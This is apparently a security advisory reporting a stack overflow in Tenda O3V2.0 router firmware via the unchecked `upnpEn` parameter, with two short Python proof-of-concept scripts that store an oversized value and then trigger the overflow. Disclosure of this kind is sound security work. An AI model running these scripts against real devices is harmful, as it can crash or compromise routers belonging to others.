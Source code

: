 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `upnpEn` POST parameter accepted by `/goform/setNetworkService` is written to the configuration key `adv.upnp.en` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getNetworkService`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `adv.upnp.en`.

## Technical details

- The `setNetworkService` endpoint accepts a POST parameter `upnpEn` and calls `SetValue("adv.upnp.en", Var)` without enforcing a maximum length.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_111238.png)

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_111355.png)

- The `getNetworkService` endpoint retrieves the `upnpEn` parameter using `GetValue("adv.upnp.en", v64)` and stores it on the stack without proper boundary checks, which may result in a stack overflow vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_111649.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `adv.upnp.en` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setNetworkService"
payload =  b"a"*1000

data = {"upnpEn":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getNetworkService"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)
